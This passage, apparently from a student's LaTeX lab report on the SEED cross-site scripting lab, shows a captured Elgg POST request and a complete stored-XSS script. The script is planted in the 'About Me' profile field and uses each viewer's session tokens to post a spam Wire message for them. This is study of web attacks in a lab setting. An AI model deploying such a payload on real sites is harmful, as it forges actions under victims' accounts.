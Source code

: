 \documentclass[12pt]{article}
\begin{document}
The request body has this content:

\begin{verbatim}
__elgg_token=un1KjOAjar7PKPaDSDuDfA&__elgg_ts=1707419569&body=Test Post
\end{verbatim}

    \begin{figure}[H]
         \centering
         \includegraphics[width=0.95\textwidth]{Images/ss4.png}
         \caption{POST Request for posing on the Wire}
         \label{fig:ss4}
     \end{figure}

This task is quite similar to the previous one, in fact the request body is way shorter. So, we place this script in the ``About Me'' section once again:

\begin{verbatim}
<script type="text/javascript">
    window.onload = function () {
        var ts = elgg.security.token.__elgg_ts;
        var token = elgg.security.token.__elgg_token;
        var userName = elgg.session.user.username;
        var guid = elgg.session.user.guid;

        var sendurl = "/action/thewire/add";

        // If the user is Samy, then the attack is not performed
        if (guid == 59) return; // User ID of Samy

        var postBody = "To earn 12 USD/Hour(!), visit now\nhttp://www.seed-server.com/profile/samy";

        var formData = new FormData();
        formData.append('__elgg_token', token);
        formData.append('__elgg_ts', ts);
        formData.append('body', postBody);


        var ajax = new XMLHttpRequest();
        ajax.open("POST", sendurl, true);
        ajax.setRequestHeader("Host", "www.seed-server.com");
        ajax.send(formData);
    }
</script>
\end{verbatim}
\end{document}
